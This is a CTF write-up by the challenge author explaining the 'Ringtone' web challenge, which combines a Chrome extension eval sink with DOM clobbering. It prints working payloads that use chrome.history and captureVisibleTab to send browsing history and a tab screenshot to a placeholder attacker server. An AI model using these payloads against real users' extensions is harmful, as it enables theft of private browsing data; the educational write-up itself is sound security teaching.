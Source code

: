 ```yaml
---
title: Ringtone Web Challenge Writeup - Zer0pts CTF 2023
summary: 
date: "2023-07-16T22:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: "Writeup for the web challenge I wrote in Zer0pts CTF 2023 "
  image: ""
---
```


Zer0pts CTF took place last weekend with the participation of over 500 teams, making it a resounding success. As a member of the team, I contributed by developing a web challenge called "Ringtone," which ended up being solved by 14 teams. Although I had plans to create more web challenges, my schedule was tight. However, I promise to my best next year to come up with fresh ideas. Without further ado, let's dive into the technical details of the challenge.
I was interested recently in the security of chrome extensions and worked on some assessments in this area. Since this field is not having much attention in the CTF community, I decided to develop this challenge.

![chall](https://i.imgur.com/fs1gN1k.png)

participants were provided with the source code of a website and an associated extension. Upon inspecting the website, we were instructed to install the provided extension. By typing a message in the input field, the extension would trigger and play music in a new tab, which would close after a few seconds.

![website](https://i.imgur.com/iBXCWMY.png)

The first step in tackling the challenge was to inspect the source code of the bot. It became evident that the bot performs several steps before visiting the desired URL. It first visits the extension's index page to simulate active user usage. Next, it visits the flag secret URL, closes the tab, and finally proceeds to the provided URL

```js
const crawl = async (target) => {
    const url = `${base_url}/${target}`;
    console.log(`[+] Crawling: ${url}`);
    const flagUrl=`${base_url}/${flagPath}`;
    const extUrl="chrome-extension://pifcfidoojbiodholilemccdnkcibghf/index.html"
    const browser = await puppeteer.launch(browser_option);
    
    const page2 = await browser.newPage();
    await page2.goto(base_url, {
            waitUntil: 'networkidle0',
            timeout: 2 * 1000,
        });
    const pageExt=await browser.newPage();
    await pageExt.goto(extUrl);
    await sleep(1000)
    const page1 = await browser.newPage();
    await page1.goto(flagUrl);
    await page1.close();
    const page = await browser.newPage();
    await page.goto(url, {
            waitUntil: 'networkidle0',
            timeout: 3 * 1000,
        });
   await browser.close();
}
```

Based on this information, our initial goal was to find a way to leak the flag URL. Upon examining the main website's source code, we discovered that it reflects the sanitized message we type using the latest version of DOMPurify. Therefore, achieving cross-site scripting (XSS) was quite challenging unless we found a zero-day vulnerability in this battle-tested library.

```js
        var url = new URL(location.href);
        var inp = url.searchParams.get("message");
        options={FORBID_TAGS:["meta"]}
        if(inp){
        document.getElementById("msg").innerHTML=DOMPurify.sanitize(inp,options)
}
```
After analyzing the extension's source code, we learned that the content script communicates with the background script through messages, allowing it to launch a new tab when the "Ring" button is clicked. Upon closer inspection, we noticed a listener in the `sandbox.js` file that is triggered when a tab is updated. Subsequently, a message with a text parameter containing the value `report_back` is sent, and the response is passed to a function called evalCode. This function, in conjunction with the fetch listener in the `background.js` file, enables the execution of JavaScript code within the extension's context.

```js
  chrome.tabs.onUpdated.addListener(function (tabId,tab) {
          console.log(tabId)
          chrome.tabs.sendMessage(tabId, {text: 'report_back'}).then((resp)=>{        
                  evalCode(resp)
          })
      });
```
The fetch listener:
```js
self.onfetch= e => {
  if (e.clientId && e.request.url.startsWith(prefix)) {
    e.respondWith(new Response(e.request.url.slice(prefix.length), {
      headers: { 'Content-Type': 'application/x-www-form-urlencoded;charset=utf-8' },
    }));
  }
};
```
If we manage to influence the response of this message, it will be evaluated, potentially leading to an XSS vulnerability within the extension's context. Returning to the content script, we discovered the following code snippet. When a message is received from the background script, it checks if `users.privileged.dataset.admin` is set and sends its value as a response. By taking control of this value, we can achieve our XSS objective.

```js
chrome.runtime.onMessage.addListener(function (msg, sender, sendResponse) {
    if (msg.text === 'report_back') {
        console.log("msg received")
        if(users.privileged.dataset.admin){
            sendResponse(users.privileged.dataset.admin)
        }
    }
});
```

Using DOM clobbering, we can manipulate this value. One possible solution is to submit the following message:
```
<form id=users><img name=privileged data-admin=RANDOMINPUT></form>
```
This payload allows us to control `users.privileged.dataset.admin`. However, since we don't know the flag URL, our first objective is to leak its value. Inspecting the extension's manifest file, we notice that we have the permission `history`:
```
"permissions":["history","activeTab","tabs"],
```
Based on this, we can abuse the history API to leak the flag URL. By submitting the following payload, we can accomplish the URL leak:
```
?message=<form%20id=users>%20<img%20name=privileged%20data-admin=chrome.history.search({text:``,maxResults:10},function(data){data.forEach(function(page){fetch(`http://YOURSERVER?a=`%2Bpage.url);});});></form>
```
It's important to note that quotes and spaces are URL encoded, which can potentially break the payload. Therefore, we used backticks to avoid any problems. Once the Flag URL is leaked (`http://challenge:8080/MIc5MDpXQlWj0ak1HnJ7r3iQg1vtOv`), obtaining the flag becomes straightforward by making a simple fetch request. However, when developing the challenge, I was planning to place the flag inside an image to prevent players from easily fetching it from the source code. In this scenario, players are required to use `chrome.tabs.captureVisibleTab` to take a screenshot of the tab and leak the flag. Due to time constraints, I couldn't make any changes, and together with st98-san, we concluded that the challenge was already satisfactory as it stood. Here is my final payload to leak the flag:
```?message=<form%20id=users>%20<img%20name=privileged%20data-admin=chrome.tabs.create({url:`http://challenge:8080/MIc5MDpXQlWj0ak1HnJ7r3iQg1vtOv`},function(tab){setTimeout(function(){chrome.tabs.captureVisibleTab(null,{},function(dataUri){navigator.sendBeacon(`http://YOURSERVER`,dataUri);})},1000);});></form>```

## Conclusion
Working with my Zer0pts teammates is always a joy, and I would like to express my gratitude to them for their invaluable help and guidance. I hope you enjoyed the challenge and learned from it. Feel free to reach out to me on Twitter (@BelkahlaAhmed1) if you have any questions. I look forward to meeting you in upcoming CTFs.

